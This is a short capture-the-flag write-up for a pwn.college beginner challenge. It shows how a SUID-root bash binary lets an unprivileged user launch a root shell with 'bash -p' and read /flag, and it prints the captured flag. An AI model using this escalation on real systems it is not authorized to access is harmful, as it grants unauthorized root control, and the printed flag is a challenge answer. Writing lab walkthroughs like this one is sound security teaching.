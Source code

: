 # Challenge Name: bash
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/bash`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/bash
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/bash
```

- The `s` in `-rws` indicates it's a SUID binary.
- `bash` runs with **root privileges**.

## 🚀 Exploitation

The `bash` -p option is used to preserve the effective user ID (EUID) when launching a new shell — specifically useful when the Bash binary is setuid root.

Means:

Launch a new Bash shell and preserve any elevated privileges (such as root) inherited from the binary.

```bash
bash -p
# cat /flag
```

Output:
```
pwn.college{YIUr8uTiej1wnkexE_M9d1NqxJf.dZDOxwSM0IzMyEzW}
```
